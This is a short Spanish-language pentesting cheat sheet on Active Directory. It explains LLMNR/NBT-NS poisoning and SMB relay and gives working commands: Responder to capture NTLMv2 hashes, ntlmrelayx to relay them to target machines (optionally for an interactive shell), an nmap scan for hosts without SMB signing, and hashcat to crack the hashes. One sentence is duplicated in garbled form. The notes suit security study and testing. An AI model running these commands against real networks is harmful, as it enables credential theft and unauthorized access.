 # Active Directory

1. [Componentes importantes](#componentes-importantes)
2. [Responder](#responder)
  - [Crackear hashes](#crackear-hashes)

## Componentes importantes

LLMNR: anteriormente NBT-NS, se usa para resolver hosts cuando el DNS falla, el problema que tiene es que cuando se responde a este servicio, devuelve el usuario y hash (NTLMv2), se recomienda desactivarlo, o en caso de no poder, habilitar Network Access Control y asegurarse de la calidad de contraseñas.lo, o en caso de no poder, habilitar Network Access Control y asegurarse de la calidad de contraseñas.
![LLMNR-Diagram](LLMNR.png)

SMB-Relay: en vez de crackear hashes, se pueden redireccionar esos hashes a otras máquinas para potencialmente ganar acceso, esto requiere que no sea requerido firmado SMB (SMB signing) y que las credenciales tengan permisos de administrador en la máquina.

## Responder
LLMNR poisoning:
```bash
responder -I interfaz -rdw -v
```

SMB Relay: (en /etc/responder/Responder.conf -> SMB = Off, HTTP = Off)
```bash
responder -I interfaz -rdw -v
ntlmrelayx.py -tf targets.txt -smb2support
# si se le agrega -i se puede intentar obtener una shell interactiva
```
Para identificar las máquinas con SMB signing deshabilitado podemos correr el siguiente escaneo con nmap:
```bash
nmap --script=smb2-security-mode.nse -p445 CIDR
```

### Crackear hashes
hashcat:
```bash
hashcat -m 5600 hashes.txt wordlist.txt
```

